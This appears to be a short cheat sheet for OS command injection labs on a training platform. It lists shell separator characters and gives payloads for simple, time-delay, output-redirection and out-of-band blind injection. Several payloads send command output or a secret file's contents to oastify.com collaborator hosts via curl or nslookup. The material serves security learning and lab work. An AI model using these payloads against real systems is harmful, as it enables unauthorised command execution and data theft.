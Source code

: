 ____

The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```


```bash
email=carlos@exam.net||curl+`whoami`.OASTIFY.COM||
```

```bash
||$(curl $(cat /home/carlos/secret).OASTIFY.COM)||
```

https://www.youtube.com/watch?v=o7oVWXw4t5E

# OS command injection, simple case

```bash
productId=3&storeId=1;whoami
```

# Blind OS command injection with time delays

```bash
csrf=MHUzDCRAmx3TG1QrDY2ZLHl2jHKiuHJg&name=test&email=test%40test.com||sleep+10||&subject=test&message=test
```

```bash
email=carlos@exam.net||curl+`whoami`.ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||
```

# Blind OS command injection with output redirection

```bash
csrf=hEZE4kGjoO0LidGJeSWj0GP6kZ6U8VlG&name=test&email=test%40test.com||whoami+>>+/var/www/images/test.txt||&subject=test&message=test
```

# Blind OS command injection with out-of-band interaction

```bash
csrf=JLmVMicftPWmhmy9AjLiFpbrbbTC5mQo&name=test&email=test%40test.com||nslookup+ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||&subject=test&message=test
```
## Blind OS command injection with out-of-band data exfiltration

```bash
csrf=tKGQKD6nVDuEr54nbuAfSdjsVrtIIK6N&name=test&email=test%40test.com||curl+`whoami`.z338sbcmd3onehr0t7l0b92ytpzfn4.oastify.com||&subject=test&message=test
```